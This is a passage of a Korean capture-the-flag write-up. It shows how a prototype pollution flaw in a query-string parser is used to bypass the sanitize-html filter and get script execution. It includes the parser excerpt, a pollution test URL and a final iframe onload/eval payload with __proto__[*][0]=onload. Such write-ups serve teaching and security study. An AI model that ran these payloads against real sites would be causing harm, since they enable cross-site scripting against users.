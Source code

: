 - `QueryArg.parseQuery(window.location.search)`를 통해 쿼리 파라미터를 파싱합니다.
- `note` 파라미터가 존재하면 `sanitizeHtml`을 거쳐 렌더링됩니다.
- 하지만 **파서(QueryArg)** 자체가 **Prototype Pollution에 취약**하게 구현되어 있습니다.

### 🛠 QueryArg 내부 구현 (발췌)

```jsx
(function(global){
  global.MakeQueryArg = function(){
			...
			
      switch (selector.charAt(selectorBreak)) {
        case '[':
          obj[currentRoot] = obj[currentRoot] || [];
          nextSelector = nextSelector.replace(']', '');

          if (nextSelector.search(/[\.\[]/) === -1 && nextSelector.search(/^[0-9]+$/) > -1) {
            nextSelector = parseInt(nextSelector, 10);
          }

          return QueryArg._qaAccess(obj[currentRoot], nextSelector, value);
       
		...
```

- 위 로직은 `__proto__`, `constructor` 등의 위험한 키워드에 대한 **검증 없이** 객체에 직접 접근하고 값을 할당합니다.
- 이로 인해 `?__proto__[a]=1` 과 같은 쿼리가 **Prototype Pollution**을 유발합니다.

[http://34.134.162.213:17002/?__proto__[a]=1](http://34.134.162.213:17002/?__proto__[a]=1) 해당 링크를 통해서 PP를 확인할 수 있습니다.
 

![image.png](image%201.png)

### sanitize-html 우회

- `sanitize-html`은 NPM에서 제공하는 HTML sanitizer 모듈입니다.
- 하지만 prototype이 오염되면 이 필터도 우회할 수 있습니다.

`sanitizeHtml prototype pollution` 을 검색하면 [유용한 링크](https://www.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers.html)가 나옵니다.

![image.png](image%202.png)

![image.png](image%203.png)

따라서 아래와 같이 접근하여 문제를 해결할 수 있습니다.

```
http://127.0.0.1:5000/?note=%3Ciframe%20onload=eval(atob(%22BASE64 인코딩된 페이로드%22))%3E&__proto__[*][0]=onload
```

`__proto__[*][0]=onload`를 통해 **모든 태그의 첫 번째 속성이 `onload`로 오염**됩니다.
